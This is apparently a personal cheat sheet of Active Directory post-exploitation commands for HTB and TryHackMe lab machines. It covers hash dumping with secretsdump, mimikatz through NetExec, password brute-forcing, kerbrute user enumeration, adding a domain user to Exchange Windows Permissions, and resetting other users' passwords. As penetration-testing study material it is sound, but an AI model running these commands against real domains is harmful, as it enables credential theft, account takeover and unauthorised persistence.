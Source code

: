 # Post Exploitation

## Impacket

To get TGT (Ticket Granting Ticket with impacket):

```bash
getTGT.py domain.htb/user
```

To dump hashes:

```bash
secretsdump.py htb.local/aditya:aditya@<ip>
```

## Bloodhound

To use TGT with bloodhound

{% code overflow="wrap" %}
```bash
KRB5CCNAME=user.ccache ./bloodhound.py -k -dc dc.domain.htb -ns <ip> -c All -d domain.htb -u user@domain.htb
```
{% endcode %}

## NetExec



{% embed url="https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/" %}

#### mimikatz module:

{% code overflow="wrap" %}
```bash
nxc smb <ip> -u 'Administrator' -p 'PASS' --local-auth -M mimikatz
```
{% endcode %}

```bash
nxc smb <ip> -u 'Administrator' -p 'PASS' -M mimikatz
```

{% code overflow="wrap" %}
```bash
nxc smb <ip> -u Administrator -p 'PASS' -M mimikatz -o COMMAND='privilege::debug'
```
{% endcode %}

#### Password Bruteforce:

```bash
nsc smb <ip> -u userlist.out -p passlist.txt 
```

##

## Kerbrute

To check if users exist and then get their hashes:

{% code overflow="wrap" %}
```bash
kerbrute userenum --dc dc.domain.htb -d domain.htb username.txt
```
{% endcode %}

{% hint style="info" %}
If hashcat can't crack use --downgrade flag
{% endhint %}

## Enumeration

To check domain details

{% code title="can also enumerate individual accounts" %}
```powershell
net user /domain
```
{% endcode %}

To check group details

```
net group /domain
```

To add new user to domain:

```
net user aditya aditya123@ /add /domain
```

To add user to a group:

```
net group "Exchange Windows Permissions" /add aditya
```

To check users in the group:

```
net group "Tier 1 Admins" /domain
```

To check password policy, lockout policy, etc:

```
net accounts /domain
```

To reset other user's password if permission present use:

{% code overflow="wrap" %}
```powershell
Set-ADAccountPassword name -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose

New Password: *********
```
{% endcode %}

If username already present in format of : then:

```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

#### Powershell:

```powershell
Get-ADUser -Identity mr.robot -Server evilcorp.com -Properties *
```

{% code overflow="wrap" %}
```powershell
Get-ADUser -Filter 'Name -like "*stevens"' -Server za.tryhackme.com | Format-Table Name,SamAccountName -A
```
{% endcode %}

For groups:

```powershell
Get-ADGroup -Identity Administrators -Server za.tryhackme.com
```

```powershell
Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com
```

For domains:

```powershell
Get-ADDomain -Server za.tryhackme.com
```

Change Password:

{% code overflow="wrap" %}
```powershell
Set-ADAccountPassword -Identity gordon.stevens -Server za.tryhackme.com -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)
```
{% endcode %}
